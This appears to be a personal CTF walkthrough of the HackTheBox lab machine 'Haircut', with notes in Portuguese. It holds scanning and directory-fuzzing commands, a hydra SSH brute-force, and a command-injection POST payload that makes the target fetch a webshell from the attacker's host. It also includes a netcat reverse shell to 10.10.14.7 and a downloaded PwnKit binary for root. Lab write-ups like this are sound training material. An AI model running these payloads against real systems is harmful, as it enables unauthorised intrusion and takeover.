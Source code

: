 Haircut
========================

    sudo nmap_enum 10.10.10.24 | tee nmap_output.txt

![qownnotes-media-lmTfGN](../../../media/qownnotes-media-lmTfGN.png)


    sudo nmap -sU -p 53,161,111,137,139,500,2049 -Pn 10.10.10.24 | tee nmap_udp_output.txt
![qownnotes-media-RhUXGg](../../../media/qownnotes-media-RhUXGg.png)

    sudo nmap -p- -Pn -T5 -n 10.10.10.24 | tee nmap_fullportstcp_output.txt

![qownnotes-media-ZrRaGl](../../../media/qownnotes-media-ZrRaGl.png)

    sudo nmap -sS --script vuln -n -T5 -Pn 10.10.10.24 -p 22,80 | tee nmap_vulns.txt

![qownnotes-media-qcMlPQ](../../../media/qownnotes-media-qcMlPQ.png)

    nikto -host http://10.10.10.24 -T x 6 | tee nikto_output.txt

![qownnotes-media-gQDALY](../../../media/qownnotes-media-gQDALY.png)


Verificar comentarios nas páginas

Outros dominios

    ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: haircut.FUZZ" -u http://haircut.htb -fs 144

![qownnotes-media-IWFDFe](../../../media/qownnotes-media-IWFDFe.png)

Subdominio
    
    ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.haircut.htb" -u http://haircut.htb -fs 144

![qownnotes-media-CJrArX](../../../media/qownnotes-media-CJrArX.png)

Procurar directories

    gobuster dir -u http://haircut.htb/uploads -w /usr/share/seclists/Discovery/Web-Content/common.txt -x "txt,html,php,asp,aspx,jsp" -k -t 16 -o "tcp_port_protocol_ext_gobuster.txt"

![qownnotes-media-KTHmgU](../../../media/qownnotes-media-KTHmgU.png)

Procurar admin console/directories

    gobuster dir -u http://10.10.10.24 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -k -t 16 -o "tcp_port_protocol_gobuster.txt"

![qownnotes-media-fYWQNJ](../../../media/qownnotes-media-fYWQNJ.png)

Procurar admin console/directories

    gobuster dir -u http://10.10.10.24 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x "txt,html,php,asp,aspx,jsp" -k -t 16 -o "tcp_port_protocol_ext_gobuster.txt"

![qownnotes-media-JgPUpp](../../../media/qownnotes-media-JgPUpp.png)

    gobuster dir -u http://10.10.10.24 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x "txt,html,php,asp,aspx,jsp" -k -t 16 -o "tcp_port_protocol_gobuster.txt"

## Exploitation

Directory traversal

    ffuf -c -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u 'http://haircut.htb/exposed.php' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://haircut.htb' -H 'Connection: keep-alive' -H 'Referer: http://haircut.htb/exposed.php' -H 'Upgrade-Insecure-Requests: 1' -d 'formurl=http%3A%2F%2Flocalhost%2FFUZZ&submit=Go' -fs 508,966 -x http://127.0.0.1:8080

![qownnotes-media-AHwKap](../../../media/qownnotes-media-AHwKap.png)

Obtive o nome de usuários do servidor

    hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt 10.10.10.24 ssh

    ffuf -c -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -u 'http://haircut.htb/exposed.php' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://haircut.htb' -H 'Connection: keep-alive' -H 'Referer: http://haircut.htb/exposed.php' -H 'Upgrade-Insecure-Requests: 1' -d 'formurl=http%3A%2F%2Flocalhost%2F/test.html FUZZ&submit=Go' -fs 1037 -x http://127.0.0.1:8080
 
 Cara, nada disso estava funcionando. Então, levando em conta que o comando no servidor seria mais ou menos isso:
 
     system('curl' . $_POST['formurl'] . '/some/direcoty');

podemos encaixar um command injection aqui:

    -o%20uploads%2Fshell.php

No intuito de salvar o resultado do curl no diretório /uploads/arq_to_save.php. Logo ficou da seguinte forma:

```
POST /exposed.php HTTP/1.1
Host: haircut.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Content-Length: 83
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.5
Connection: close
Content-Type: application/x-www-form-urlencoded
Origin: http://haircut.htb
Referer: http://haircut.htb/exposed.php
Upgrade-Insecure-Requests: 1

formurl=http%3A%2F%2F10.10.14.7%2Fwebshell.php%20-o%20uploads%2Fshell.php&submit=Go
```

![qownnotes-media-CVqRmN](../../../media/qownnotes-media-CVqRmN.png)


    curl http://haircut.htb/uploads/shell.php?cmd=nc -e /bin/bash 10.10.14.7 8081
    nc -nlvp 8081
 
 ![qownnotes-media-ZvNord](../../../media/qownnotes-media-ZvNord.png)

## Privilege Escalation

    python3 -c 'import pty; pty.spawn("/bin/bash")'
    export TERM=xterm
    <CTRL +Z>
    stty raw -echo; fg
    
    uname -a
    cat /proc/version
    curl http://10.10.14.7:8000/PwnKit_comp -o pwnkit
    chmod +x pwnkit
    ./pwnkit

![qownnotes-media-eyfZKL](../../../media/qownnotes-media-eyfZKL.png)


![qownnotes-media-uMYTdR](../../../media/qownnotes-media-uMYTdR.png)

